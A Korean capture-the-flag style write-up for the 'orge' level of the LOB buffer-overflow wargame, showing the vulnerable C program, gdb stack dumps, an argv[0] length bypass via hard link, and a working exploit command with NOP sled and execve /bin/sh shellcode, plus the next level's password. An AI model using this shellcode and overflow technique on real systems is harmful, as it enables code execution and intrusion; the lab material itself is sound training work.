 ============================================================================================================
[redhat-lob] orge
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1]"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="argv[1] address"];
    }


|

Source Code
============================================================================================================

lob 문제의 경우 소스코드가 공개되어 있으며, 소스코드는 다음과 같다.

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
            printf("argv[0] error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }

|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.
사이즈가 40바이트인 char 형 변수 배열 buffer가 선언되어 있는데, argv[0]의 길이가 77이고, argv[1][47]=="\\bf"와 argv[1] 길이가 47이하 조건을 만족하면 오버플로우가 발생한다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte)
    SFP     (4byte)
    RET     (4byte) <- strcpy overflow
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================


|

Buffer Overflow
============================================================================================================

strcpy에서 argv[1] 인자 값을 통해 buffer 변수에 입력될 때, argv[0]의 길이가 77이고, argv[1][47]=="\\bf"와 argv[1] 길이가 47이하 조건을 만족하고 값이 버퍼보다 클 경우 오버플로우가 발생된다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행.

.. code-block:: console

    $ ./orge `python -c 'print "a"*47'`

    argv[0] error

    $ ./orge `python -c 'print "a"*47+"\xbf"'`

    argv[0] error

이번 문제는 argv[0]의 길이가 77 바이트를 만족해야 버퍼오버플로우를 진행할 수 있다.

77바이트의 길이를 가진 파일을 하나 생성하여 ln 명령으로 링크를 걸어준다. 

(앞에 "./"가 있으므로 75바이트를 생성하면 된다.)

.. code-block:: console

    $ ln orge `python -c 'print "a"*75'`
    $ ls
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  orge  orge.c
    $ ./`python -c 'print "a"*75'` a
    stack is still your friend.


|


exploit
============================================================================================================

기존 문제들의 경우 환경 변수에 쉘코드를 삽입하여 해당 영역으로 RET를 할 수 있었으나, 해당 문제는 environ을 초기화하여 환경 변수 사용이 불가능하다.

기존 문제들의 경우 실행 파일명(argv[0])의 길이에 대한 제한이 없었으나, 해당 문제는 실행 파일명의 길이가 77으로 제한되어 있어 해당 부분을 우회하여야 한다.

argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/darkelf/./aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffa48       -1073743288

    (gdb) i reg $ebp
    ebp            0xbffffa68       -1073743256

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffa48:     0xbffffa68      0x400309cb      0x00000002      0xbffffa94
    0xbffffa58:     0xbffffaa0      0x40013868      0x00000002      0x08048450
    0xbffffa68:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffa78:     0xbffffa94      0x08048390      0x0804866c      0x4000ae60
    0xbffffa88:     0xbffffa8c      0x40013e90      0x00000002      0xbffffb90
    0xbffffa98:     0xbffffbec      0x00000000      0xbffffc1d      0xbffffc3f
    0xbffffaa8:     0xbffffc49      0xbffffc57      0xbffffc76      0xbffffc86
    0xbffffab8:     0xbffffc9f      0xbffffcbb      0xbffffcda      0xbffffce5
    0xbffffac8:     0xbffffcf3      0xbffffd35      0xbffffd48      0xbffffd5d
    0xbffffad8:     0xbffffd6d      0xbffffd7a      0xbffffd98      0xbffffda3
    0xbffffae8:     0xbffffdb4      0xbffffdc6      0xbffffdd5      0xbffffddd
    0xbffffaf8:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffb08:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffb18:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffb28:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffb38:     0x000001fa      0x0000000c      0x000001fa      0x0000000d
    0xbffffb48:     0x000001fa      0x0000000e      0x000001fa      0x00000010
    0xbffffb58:     0x0fabfbff      0x0000000f      0xbffffb8b      0x00000000
    0xbffffb68:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffb78:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffb88:     0x69000000      0x00363836      0x6d6f682f      0x61642f65
    0xbffffb98:     0x6c656b72      0x2f2e2f66      0x61616161      0x61616161
                                                      ^               ^
    0xbffffba8:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^               ^
    0xbffffbb8:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^               ^ argv[1] = 0xbffffbc7
                                                                            
    0xbffffbc8:     0x61616161      0x61616161      0x61616161      0x61616161
    ==========================================================================


|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode
    SFP     (4byte)  <- shellcode
    RET     (4byte)  <- argv[1] address
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[1] 주소로 변경하여 해당 쉘코드가 실행되도록 한다. buffer의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./`python -c 'print "a"*75'` `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xc7\xfb\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀▒▒▒▒
                                           
    bash$ whoami
    orge
    bash$ my-pass
    euid = 507
    timewalker


